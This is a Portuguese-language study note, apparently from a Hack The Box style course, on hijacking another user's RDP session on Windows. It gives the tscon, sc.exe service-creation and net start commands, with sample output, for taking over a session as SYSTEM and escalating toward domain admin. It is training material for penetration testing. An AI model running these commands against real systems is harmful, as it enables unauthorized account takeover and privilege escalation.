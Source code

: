 #protocolo #redes #hacking 

# Ataques específicos do protocolo RDP

Vamos imaginar que obtivemos acesso a uma máquina e temos uma conta com privilégios de administrador local. Se um usuário estiver conectado via RDP à nossa máquina comprometida, podemos sequestrar a sessão de área de trabalho remota do usuário para aumentar nossos privilégios e personificar a conta. Em um ambiente do Active Directory, isso pode resultar na assunção de uma conta de administrador de domínio ou na promoção de nosso acesso dentro do domínio.

## Sequestro de sessão RDP

Conforme mostrado no exemplo abaixo, estamos logados como o usuário **juurena**(UserID = 2) que possui privilégios de Administrador. Nosso objetivo é sequestrar o usuário **lewen**(UserID = 4), que também está logado via RDP.

![[Pasted image 20240502091208.jpg]]

Para representar com sucesso um usuário sem sua senha, precisamos ter privilégios de sistema e usar o binário [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) da Microsoft que permite aos usuários se conectarem a outra sessão de desktop. Funciona especificando qual `SESSION ID`( `4` para a sessão de `lewen` em nosso exemplo) gostaríamos de conectar a qual nome de sessão ( `rdp-tcp#13`, que é nossa sessão atual). Assim, por exemplo, o seguinte comando abrirá um novo console conforme especificado `SESSION_ID` em nossa sessão RDP atual:

```cmd
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

Se tivermos privilégios de administrador local, podemos usar vários métodos para obter privilégios de SYSTEM, como`` PsExec`` ou`` Mimikatz``. Um truque simples é criar um serviço do Windows que, por padrão, será executado como Sistema Local e executará qualquer binário com privilégios de SYSTEM. Usaremos o binário ``Microsoft sc.exe``. Primeiro, especificamos o nome do serviço (``sessionhijack``) e o ``binpath``, que é o comando que queremos executar. Assim que executarmos o comando a seguir, um serviço chamado ``sessionhijack`` será criado.

```cmd
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

![[Pasted image 20240502094330.jpg]]

Para executar o comando, podemos iniciar o serviço `sessionhijack`:

```cmd
C:\htb> net start sessionhijack
```

Assim que o serviço for iniciado, um novo terminal com a sessão do usuário `lewen` aparecerá. Com esta nova conta, podemos tentar descobrir que tipo de privilégios ela possui na rede, e talvez tenhamos sorte, e o usuário seja membro do grupo Help Desk com direitos de administrador para muitos hosts ou até mesmo um Administrador de Domínio .

![[Pasted image 20240502094433.jpg]]

**Nota: Este método não funciona mais no Server 2019.**




